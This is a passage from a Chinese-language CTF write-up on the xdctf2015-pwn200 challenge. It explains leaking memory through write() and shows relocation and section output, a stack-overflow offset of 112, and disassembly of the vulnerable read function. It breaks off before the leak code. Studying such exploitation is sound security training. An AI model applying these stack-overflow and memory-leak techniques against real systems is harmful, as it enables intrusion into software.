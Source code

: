 write 函数用于向文件描述符中写入数据，三个参数分别是文件描述符，一个指针指向的数据和写入数据的长度。该函数的优点是可以读取任意长度的内存数据，即打印数据的长度只由 count 控制，缺点则是需要传递 3 个参数。32 位程序通过栈传递参数，直接将参数布置在栈上就可以了，而 64 位程序首先使用寄存器传递参数，所以我们通常使用通用 gadget（参见章节4.7） 来为 write 函数传递参数。

例子是 xdctf2015-pwn200，[文件地址](../src/writeup/6.2_pwn_xdctf2015_pwn200)。在这个程序中也只有 write 可以利用：

```text
$ rabin2 -R pwn200
...
vaddr=0x0804a004 paddr=0x00001004 type=SET_32 read
vaddr=0x0804a010 paddr=0x00001010 type=SET_32 write
```

另外我们还需要 read 函数用于读入 '/bin/sh` 到 .bss 段中：

```text
$ readelf -S pwn200 | grep .bss
  [25] .bss              NOBITS          0804a020 00101c 00002c 00  WA  0   0 32
```

栈溢出漏洞很明显，偏移为 112：

```text
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
```

在 r2 中对程序进行分析，发现一个漏洞函数，地址为 `0x08048484`：

```text
[0x080483d0]> pdf @ sub.setbuf_484
/ (fcn) sub.setbuf_484 58
|   sub.setbuf_484 ();
|           ; var int local_6ch @ ebp-0x6c
|           ; var int local_4h @ esp+0x4
|           ; var int local_8h @ esp+0x8
|              ; CALL XREF from 0x0804855f (main)
|           0x08048484      55             push ebp
|           0x08048485      89e5           mov ebp, esp
|           0x08048487      81ec88000000   sub esp, 0x88
|           0x0804848d      a120a00408     mov eax, dword [obj.stdin]  ; [0x804a020:4]=0
|           0x08048492      8d5594         lea edx, [local_6ch]
|           0x08048495      89542404       mov dword [local_4h], edx
|           0x08048499      890424         mov dword [esp], eax
|           0x0804849c      e8dffeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream,
|           0x080484a1      c74424080001.  mov dword [local_8h], 0x100 ; [0x100:4]=-1 ; 256
|           0x080484a9      8d4594         lea eax, [local_6ch]
|           0x080484ac      89442404       mov dword [local_4h], eax
|           0x080484b0      c70424000000.  mov dword [esp], 0
|           0x080484b7      e8d4feffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x080484bc      c9             leave
\           0x080484bd      c3             ret
```

于是我们构造 leak 函数如下，即 `write(1, addr, 4)`：

